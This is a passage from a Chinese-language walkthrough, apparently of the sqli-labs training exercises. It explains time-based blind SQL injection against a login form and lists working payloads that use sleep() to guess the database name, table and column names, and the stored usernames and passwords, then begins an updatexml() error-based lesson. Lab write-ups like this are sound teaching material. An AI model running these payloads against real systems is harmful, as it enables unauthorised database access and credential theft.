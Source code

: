 无论怎么输入都没有回显的布尔型，通过时间延迟判断是否执行语句，并且如果是手工注入的话所有的库名表名列名都要一个一个猜。前后顺序为:数据库名长度->数据库名猜测->按条依次猜测表名->对表名中的值进行猜测

## 步骤

1.仍旧是注入点测试

`uname=admin' and 1=1 --+ 登录成功`

`uname=admin' and 1=2 --+ 登录失败`

以此判断此处存在可以语句执行的漏洞

2.开始对各项值进行猜测

`uname=admin' and if(length(database())=8,sleep(5),1)--+&passwd=admin&submit=Submit`

 

`uname=admin' and if(left(database(),1)='s',sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+&passwd=admin&submit=Submit`

`uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
***

# less 16(基于bool型/时间延迟的双引号POST型盲注)

## 原理 

没有报错信息的盲注过程。

## 步骤

本题只是改变了闭合方式为"),其余步骤仍旧见上
***

# less 17(基于错误的更新查询POST注入)

## 原理

updatexml()报错注入

该函数的正确用法

UPDATEXML(XML_doccument,XPath_string,new_value)
